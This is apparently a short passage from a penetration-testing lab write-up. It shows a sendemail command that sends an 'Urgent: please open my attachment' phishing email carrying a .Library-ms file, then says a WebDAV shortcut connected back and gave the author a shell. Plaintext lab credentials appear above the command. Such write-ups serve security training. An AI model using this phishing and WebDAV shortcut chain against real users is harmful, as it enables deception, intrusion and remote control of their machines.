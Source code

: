 our username is : test@supermagicorg.com   password test


```bash

sendemail -f test@supermagicorg.com -t Dave.Wizard@supermagicorg.com -s 192.168.205.199:587 -xu test@supermagicorg.com -xp test -u "Urgent: please open my attachment" -m "Urgent: please open my attachment." -a ./config.Library-ms  -o tls=yes
Oct 23 00:23:10 kali sendemail[1090229]: Email was sent successfully!
```

OK, so after a couple of minutes, the user opened my EMAIL, and then my WebDAV library, and then the .lnk present connected back to me and we got shell!

